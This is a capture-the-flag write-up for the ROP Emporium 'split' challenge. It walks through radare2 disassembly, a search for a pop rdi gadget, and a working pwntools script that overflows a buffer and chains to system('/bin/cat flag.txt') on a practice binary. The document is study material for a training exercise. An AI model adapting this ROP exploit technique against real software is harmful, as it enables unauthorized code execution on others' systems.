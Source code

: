 # split

Again, we download and unzip the [challenge file](https://ropemporium.com/binary/split.zip). And again, calling it looks like:
```sh
$ ./split
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    31935 segmentation fault (core dumped)  ./split
```

Because the challenges are focused on post-bug exploitation, the `pwnme` function again has an obvious vulnerability:

```asm
$ radare2 -A split
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
 -- This is an unacceptable milion year dungeon.

[0x00400650]> pdf @ sym.pwnme
/ (fcn) sym.pwnme 82
|   sym.pwnme ();
|           ; var char *s @ rbp-0x20
|           ; CALL XREF from sym.main (0x40079f)
|           0x004007b5      55             push rbp
|           0x004007b6      4889e5         mov rbp, rsp
|           0x004007b9      4883ec20       sub rsp, 0x20
|           0x004007bd      488d45e0       lea rax, [s]
|           0x004007c1      ba20000000     mov edx, 0x20               ; 32 ; size_t n
|           0x004007c6      be00000000     mov esi, 0                  ; int c
|           0x004007cb      4889c7         mov rdi, rax                ; void *s
|           0x004007ce      e82dfeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
|           0x004007d3      bfd0084000     mov edi, str.Contriving_a_reason_to_ask_user_for_data... ; 0x4008d0 ; "Contriving a reason to ask user for data..." ; const char *s
|           0x004007d8      e8f3fdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x004007dd      bffc084000     mov edi, 0x4008fc           ; const char *format
|           0x004007e2      b800000000     mov eax, 0
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b159d0820.  mov rdx, qword [obj.stdin]  ; [0x601090:8]=0 ; FILE *stream
|           0x004007f3      488d45e0       lea rax, [s]
|           0x004007f7      be60000000     mov esi, 0x60               ; '`' ; 96 ; int size
|           0x004007fc      4889c7         mov rdi, rax                ; char *s
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
```

This time there's no simple `ret2win` function we can just jump immediately to. We can use radare in order to search for useful items within the binary:

```asm
[0x00400650]> is
[Symbols]

... (A BUNCH OF LINES WE DON'T CARE ABOUT SKIPPED OVER) ...

026 0x00001080 0x00601080  LOCAL   SECT    0 stdout
027 0x00000000 0x00400000  LOCAL   SECT    0
028 0x00000000 0x00400000  LOCAL   FILE    0 crtstuff.c
029 0x00000e20 0x00600e20  LOCAL    OBJ    0 __JCR_LIST__
030 0x00000680 0x00400680  LOCAL   FUNC    0 deregister_tm_clones
031 0x000006c0 0x004006c0  LOCAL   FUNC    0 register_tm_clones
032 0x00000700 0x00400700  LOCAL   FUNC    0 __do_global_dtors_aux
033 0x000010a8 0x006010a8  LOCAL    OBJ    1 completed.7585
034 0x00000e18 0x00600e18  LOCAL    OBJ    0 __do_global_dtors_aux_fini_array_entry
035 0x00000720 0x00400720  LOCAL   FUNC    0 frame_dummy
036 0x00000e10 0x00600e10  LOCAL    OBJ    0 __frame_dummy_init_array_entry
037 0x00000000 0x00400000  LOCAL   FILE    0 split.c
038 0x000007b5 0x004007b5  LOCAL   FUNC   82 pwnme
039 0x00000807 0x00400807  LOCAL   FUNC   17 usefulFunction
040 0x00000000 0x00400000  LOCAL   FILE    0 crtstuff.c
041 0x00000a80 0x00400a80  LOCAL    OBJ    0 __FRAME_END__
042 0x00000e20 0x00600e20  LOCAL    OBJ    0 __JCR_END__
043 0x00000000 0x00400000  LOCAL   FILE    0
044 0x00000e18 0x00600e18  LOCAL NOTYPE    0 __init_array_end
045 0x00000e28 0x00600e28  LOCAL    OBJ    0 _DYNAMIC
046 0x00000e10 0x00600e10  LOCAL NOTYPE    0 __init_array_start
047 0x00000908 0x00400908  LOCAL NOTYPE    0 __GNU_EH_FRAME_HDR
048 0x00001000 0x00601000  LOCAL    OBJ    0 _GLOBAL_OFFSET_TABLE_
049 0x00000890 0x00400890 GLOBAL   FUNC    2 __libc_csu_fini
051 0x00001080 0x00601080 GLOBAL    OBJ    8 stdout
052 0x00001050 0x00601050   WEAK NOTYPE    0 data_start
054 0x00001090 0x00601090 GLOBAL    OBJ    8 stdin
055 0x0000107a 0x0060107a GLOBAL NOTYPE    0 _edata
056 0x00000894 0x00400894 GLOBAL   FUNC    0 _fini
062 0x00001050 0x00601050 GLOBAL NOTYPE    0 __data_start
064 0x00001058 0x00601058 GLOBAL    OBJ    0 __dso_handle
065 0x000008a0 0x004008a0 GLOBAL    OBJ    4 _IO_stdin_used
066 0x00001060 0x00601060 GLOBAL    OBJ   26 usefulString
067 0x00000820 0x00400820 GLOBAL   FUNC  101 __libc_csu_init
068 0x006010b0 0x006010b0 GLOBAL NOTYPE    0 _end
069 0x00000650 0x00400650 GLOBAL   FUNC   42 _start
070 0x0000107a 0x0060107a GLOBAL NOTYPE    0 __bss_start
071 0x00000746 0x00400746 GLOBAL   FUNC  111 main
074 0x00001080 0x00601080 GLOBAL    OBJ    0 stdout
076 0x000005a0 0x004005a0 GLOBAL   FUNC    0 _init
077 0x000010a0 0x006010a0 GLOBAL    OBJ    8 stderr
001 0x000005d0 0x004005d0 GLOBAL   FUNC   16 imp.puts
002 0x000005e0 0x004005e0 GLOBAL   FUNC   16 imp.system
003 0x000005f0 0x004005f0 GLOBAL   FUNC   16 imp.printf
004 0x00000600 0x00400600 GLOBAL   FUNC   16 imp.memset
005 0x00000610 0x00400610 GLOBAL   FUNC   16 imp.__libc_start_main
006 0x00000620 0x00400620 GLOBAL   FUNC   16 imp.fgets
007 0x00000000 0x00400000   WEAK NOTYPE   16 imp.__gmon_start__
008 0x00000630 0x00400630 GLOBAL   FUNC   16 imp.setvbuf
007 0x00000000 0x00400000   WEAK NOTYPE   16 imp.__gmon_start__
```

A couple obvious candidates stand out. Let's take a look at `usefulFunction` and `usefulString`:

```asm
[0x00400650]> pdf @ sym.usefulFunction
/ (fcn) sym.usefulFunction 17
|   sym.usefulFunction ();
|           0x00400807      55             push rbp
|           0x00400808      4889e5         mov rbp, rsp
|           0x0040080b      bfff084000     mov edi, str.bin_ls         ; 0x4008ff ; "/bin/ls" ; const char *string
|           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
|           0x00400815      90             nop
|           0x00400816      5d             pop rbp
\           0x00400817      c3             ret
```

So there's definitely something to work with here. If we jump directly to the `usefulFunction`, it will simply call `system` with `/bin/ls` as its argument.
Let's look at `usefulString` to see if that's helpful:

```asm
[0x00400650]> px 48 @ 0x00601060
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x00601060  2f62 696e 2f63 6174 2066 6c61 672e 7478  /bin/cat flag.tx
0x00601070  7400 0000 0000 0000 0000 0000 0000 0000  t...............
0x00601080  0000 0000 0000 0000 0000 0000 0000 0000  ................
```

How convenient ;). So we need to jump to the `system` call with `usefulString` as its argument instead.

Reviewing x86-64 calling conventions, `rdi` is the register which holds the first argument to a function. So we have to get the address of `usefulString` into `rdi`.
We can do that by getting the `usefulString` address into the stack and then having `pop rdi` be called. This will be the first time we use a ROP gadget!

Let's go look around for a useful gadget:

```asm
[0x00400650]> /R pop rdi
  0x00400883                 5f  pop rdi
  0x00400884                 c3  ret
```

Well that was pretty easy. So we need to prepare our buffer overflow with the appropriate amount of padding, address of the ROP gadget, the address of the `usefulString` and then the address of the `system` call.

The method for figuring out the padding is identical to the [ret2win](ret2win/README.md) challenge. Then we can craft our exploit with the other addresses:

```python

from pwn import *

prog = process("./split")

payload = "A" * 40

pop_rdi = 0x00400883
bin_string = 0x00601060
call_system = 0x00400810

payload += p64(pop_rdi)
payload += p64(bin_string)
payload += p64(call_system)

print prog.recvuntil(">")
prog.clean()

prog.sendline(payload)

print prog.clean()
```

And then we run it!

```sh

(venv) ~/w/r/c/r/s/64bit ❯❯❯ python exploit.py
[+] Starting local process './split': pid 9187
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
>
ROPE{a_placeholder_32byte_flag!}
```
